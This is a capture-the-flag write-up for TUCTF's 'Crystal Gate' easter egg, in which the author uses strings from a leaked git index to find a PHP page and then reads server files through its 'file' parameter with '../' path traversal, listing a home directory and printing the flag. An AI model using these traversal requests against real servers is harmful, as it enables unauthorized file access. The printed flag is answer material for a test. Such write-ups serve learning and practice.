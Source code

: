 # Easter Egg: <br> Crystal Gate

__PROBLEM__

I don't wanna go anywhere.

http://18.191.227.167/

__SOLUTION__

This is also related to `Jade gates` problem. In the last step of jade gates we found some strings

```bash
➜ strings index
DIRC
XEZP
crystalsfordays/index.html
^\/R
%crystalsfordays/traversethebridge.php
devvvvv/home.html
devvvvv/index.html
 enterthecoppergate/copperkey.jpg
enterthecoppergate/gate.html
enterthecoppergate/index.html
enterthecoppergate/jadekey.jpg
images/banner.png
images/logo.png
images/sitenotes.txt
index.html
youfoundthejadegate/gate.html
youfoundthejadegate/index.html
youfoundthejadegate/jadekey.jpg
~w]/u
youfoundthejadegate/star.jpg
TREE
-1 1
enterthecoppergate
69Q#\m/
6snh
```
Here we see there's something about `crystalgate`. So we visit `http://18.191.227.167/crystalsfordays/index.html` and get redirected to
`http://18.191.227.167/crystalsfordays/traversethebridge.php` and gets some text
```
Note: Only used for access management and to check user info.
Note2: I can't seem to remember the param. It's "file"
```

Notice the emphasis on `file` we try something like `http://18.191.227.167/crystalsfordays/traversethebridge.php/?file=../../../../../../../../../../../flag
`
what are we doing here? well we use a parameter called `file` and then we are trying to do LFI a.k.a Local file inclusion to get the files present in the server but we fail as we get

```
Note: Only used for access management and to check user info.
Note2: I can't seem to remember the param. It's "file"
That action is forbidden.
```

Again thanks to @grtven on discord for pointing out that we have to traverse the directory one by one.
So we start with `http://18.191.227.167/crystalsfordays/traversethebridge.php/?file=../` and then `http://18.191.227.167/crystalsfordays/traversethebridge.php/?file=../../
` and see

```
Note: Only used for access management and to check user info.
Note2: I can't seem to remember the param. It's "file"
.. .bash_history webserver . .bash_logout .bashrc .bash_profile TheEgg.html
```

There is a `TheEgg.html` that seems a bit different from others so we visit that `http://18.191.227.167/crystalsfordays/traversethebridge.php/?file=../../TheEgg.html
` and get

```
Note: Only used for access management and to check user info.
Note2: I can't seem to remember the param. It's "file"

THE END

Congratulations! You have discovered the crystal key and unlocked the egg. Thank you for your participation in this competition and I hope you enjoyed the trip, as well as learned a few things in the process.

- Joker

TUCTF{3_15_4_M4G1C_NUMB3R_7H3_crys74L_k3Y_15_y0ur5!}

```


FLAG - `TUCTF{3_15_4_M4G1C_NUMB3R_7H3_crys74L_k3Y_15_y0ur5!}`
